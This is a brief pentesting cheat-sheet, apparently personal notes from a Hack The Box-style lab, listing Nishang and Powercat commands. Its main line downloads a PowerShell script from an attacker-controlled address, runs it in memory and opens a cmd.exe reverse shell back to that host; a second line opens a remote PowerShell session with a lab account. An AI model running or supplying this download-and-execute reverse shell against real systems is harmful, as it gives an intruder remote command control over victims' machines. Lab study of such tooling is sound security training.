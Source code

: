 # Nishang

[[Nishang]]
# Powercat

```
c:\\windows\\SysNative\\WindowsPowerShell\\v1.0\\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://192.168.19.62:8000/powercat.ps1'); powercat -c 192.168.19.62 -p 443 -e cmd.exe
```

## PowerShell 

```powershell-session
Enter-PSSession -ComputerName 10.129.224.248 -Credential htb-student -Authentication Negotiate
```